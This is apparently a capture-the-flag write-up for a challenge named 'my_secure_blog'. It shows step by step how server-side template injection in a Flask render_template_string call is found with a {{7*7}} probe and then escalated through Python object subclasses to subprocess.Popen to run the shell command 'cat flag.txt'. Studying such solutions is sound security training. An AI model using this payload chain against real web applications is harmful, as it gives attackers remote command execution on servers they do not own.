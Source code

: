 # my_secure_blog

### Solution

We can test for render_template_string using `{{7*7}}` and seeing if it returns 49.
Process for exploitation is shown below.

```python
{{''.__class__}}

#class of blank string
<class 'str'>
```

```python
{{''.__class__.__mro__}}
#inherited classes
(<class 'str'>, <class 'object'>)
```

```python
{{''.__class__.__mro__[1].__subclasses__()}}
#subclasses of object
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'> ...
```

Looking for the subprocess.Popen object, we can execute shell commands such as `cat flag.txt`

```python
{{''.__class__.__mro__[1].__subclasses__()[250]('cat flag.txt', shell=True, stdout=-1).communicate()[0].strip()}}

b'flag{TBD}'
```